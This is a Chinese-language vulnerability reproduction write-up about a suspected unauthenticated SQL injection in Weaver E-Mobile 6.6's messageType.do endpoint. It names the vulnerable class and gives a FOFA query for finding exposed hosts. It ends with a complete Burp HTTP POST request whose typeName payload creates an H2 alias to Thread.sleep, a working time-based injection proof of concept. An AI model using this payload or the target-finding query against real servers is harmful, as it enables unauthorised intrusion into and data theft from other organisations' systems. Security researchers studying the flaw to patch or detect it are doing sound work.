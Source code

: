 # 疑似 E-Mobile 前台SQL注入漏洞
一漏洞背景
-----

最近传的沸沸扬扬的mobile前台SQL注入漏洞   
 

查询网上部分漏出找到漏洞位置client.do  messageType.do

`WEB-INF/classes/weaver/mobile/core/web/MessageTypeAction.class`

二、漏洞复现  
 

祭出fofa大法，fofa语法如下 

  E-Mobile 6.6

![](%E7%96%91%E4%BC%BC%20E-Mobile%20%E5%89%8D%E5%8F%B0SQL%E6%B3%A8%E5%85%A5%E6%BC%8F%E6%B4%9E/640wx_fmt%3Dpng%26tp%3Dwebp%26wxfrom%3D5%26wx_lazy%3D1%26wx_co%3D1.webp)

部分网络爆出内容 

获取一个method参数做路由

![](%E7%96%91%E4%BC%BC%20E-Mobile%20%E5%89%8D%E5%8F%B0SQL%E6%B3%A8%E5%85%A5%E6%BC%8F%E6%B4%9E/640wx_fmt%3Dpng%26tp%3Dwebp%26wxfrom%3D5%26wx_lazy%3D1%26wx_co%3D1.png)

typeid这里限制了为int类型跳过

![](%E7%96%91%E4%BC%BC%20E-Mobile%20%E5%89%8D%E5%8F%B0SQL%E6%B3%A8%E5%85%A5%E6%BC%8F%E6%B4%9E/1_640wx_fmt%3Dpng%26tp%3Dwebp%26wxfrom%3D5%26wx_lazy%3D1%26wx_co%3D1.png)

![](%E7%96%91%E4%BC%BC%20E-Mobile%20%E5%89%8D%E5%8F%B0SQL%E6%B3%A8%E5%85%A5%E6%BC%8F%E6%B4%9E/2_640wx_fmt%3Dpng%26tp%3Dwebp%26wxfrom%3D5%26wx_lazy%3D1%26wx_co%3D1.png)

method参数等于create时typeName参数存在注入

这样我们就可以Burp构建相关请求了

    POST /messageType.do HTTP/1.1
    Host: xxx.xxx.xxx.xxx
    Cache-Control: max-age=0
    Upgrade-Insecure-Requests: 1
    User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/88.0.4324.190 Safari/537.36
    Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
    Accept-Encoding: gzip, deflate
    Accept-Language: zh-CN,zh;q=0.9
    Cookie: JSESSIONID=abc2sezIkpTECehgf1vJx
    Connection: close
    Content-Type: application/x-www-form-urlencoded
    Content-Length: 109
    
    
    
    method=create&typeName=1';CREATE ALIAS sleep222 FOR
    "java.lang.Thread.sleep";CALL sleep222(3000);select+'1

![](%E7%96%91%E4%BC%BC%20E-Mobile%20%E5%89%8D%E5%8F%B0SQL%E6%B3%A8%E5%85%A5%E6%BC%8F%E6%B4%9E/3_640wx_fmt%3Dpng%26tp%3Dwebp%26wxfrom%3D5%26wx_lazy%3D1%26wx_co%3D1.png)
